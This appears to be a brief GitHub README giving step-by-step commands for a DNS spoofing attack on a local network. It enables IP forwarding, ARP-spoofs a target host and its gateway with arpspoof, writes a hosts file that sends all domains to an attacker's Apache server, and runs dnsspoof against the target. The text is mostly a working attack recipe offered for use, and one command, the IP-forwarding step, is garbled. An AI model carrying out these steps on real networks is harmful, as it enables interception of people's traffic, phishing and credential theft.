 # DNSPOOF-


Dns spoof =============


1 forward ip 

echo > 1 /proc/sys/net/ipv4/ip_forward



2 arp spoof the target with the getway


arpspoof -t 192.168.1.36 192.168.1.1 && arpspoof -t 192.168.1.1 192.168.1.36


3  create a spoofhost txt file and 
Eg : nano spoofhosts.txt
write redirections eg"

ip bellow is apache ip
192.168.1.33 www*
192.168.1.33 bacon.com
192.168.1.33 *com
192.168.1.33   *

4 start apache2 
service apache2 start


5 activate dns 

dnsspoof -f spoofhosts.txt host 192.168.1.36 and udp port 53
